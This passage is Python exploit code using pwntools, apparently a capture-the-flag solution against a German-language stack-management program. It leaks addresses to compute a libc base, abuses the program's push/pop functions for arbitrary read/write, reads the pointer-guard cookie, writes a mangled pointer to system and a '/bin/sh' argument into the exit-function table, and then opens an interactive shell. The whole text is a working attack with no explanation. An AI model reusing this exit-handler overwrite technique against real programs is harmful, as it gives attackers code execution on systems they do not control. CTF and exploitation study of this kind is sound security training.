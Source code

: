 ```python
    print(p.recvuntil(b'herunterfahren').decode())

    addr_NE = setup_rw()
    offset_NE_to_H = 0xaee0
    addr_H = addr_NE + offset_NE_to_H
    
    # calculate libc base
    base = addr_H - 0x11fe0

    # Let NK->elemente pointing to HK 
    einkellern(pwn.p64(addr_H)[1],Keller.HK)
    einkellern(pwn.p64(addr_H)[2],Keller.HK)
    auskellern(Keller.HK)
    auskellern(Keller.HK)
    for _ in range(pwn.p64(addr_H)[0]- 0x1e + 0x18):
        einkellern(0xde,Keller.NK)
    for _ in range(0x18):
        auskellern(Keller.NK)
    


    dl_fini = base + 0x2dd380
    addr_mangled_ptr = base + 0x257fd8
    system = base + 0xab740
    binsh = base + 0x21e42f

    fs_base = base + 0x50740
    cookie = read(fs_base + 0x30)

    # system has to be written mangled into the exit funcs struct
    new_mangled_ptr = ptr_mangle(system, cookie)

    write(addr_mangled_ptr, pwn.p64(new_mangled_ptr))
    
    # overwrite arg
    write(addr_mangled_ptr + 8 , pwn.p64(binsh))


    choose(12)

    #drops shell
    p.interactive()
    exit()

    
if __name__ == '__main__':
    try:
        main()
    except Exception as e:
        import traceback
        traceback.print_exc()
    finally:
        input('end')
        print(p.recvall(timeout=1))
```

